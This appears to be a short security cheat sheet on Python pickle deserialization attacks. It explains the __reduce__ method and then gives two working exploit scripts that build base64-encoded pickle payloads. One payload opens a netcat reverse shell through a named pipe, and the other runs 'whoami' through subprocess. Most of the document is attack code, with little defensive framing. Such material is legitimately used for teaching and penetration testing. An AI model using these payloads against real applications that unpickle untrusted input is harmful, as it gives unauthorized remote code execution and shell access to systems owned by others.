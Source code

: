 # more technologies will be added soon !

### python pickle

### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

```python
#!/usr/bin/env python
import pickle
import pickletools
from base64 import b64encode
import subprocess


class anti_pickle_serum(object):
    def __reduce__(self):
        cmd=['whoami']
        return subprocess.check_output , (cmd,)


exploit_obj = anti_pickle_serum()

exploit_obj_data = pickle.dumps({"serum":exploit_obj} , protocol=0)

optmized_obj=pickletools.optimize(exploit_obj_data)
pickletools.dis(optmized_obj)

payload = b64encode(exploit_obj_data)

print(payload)


```
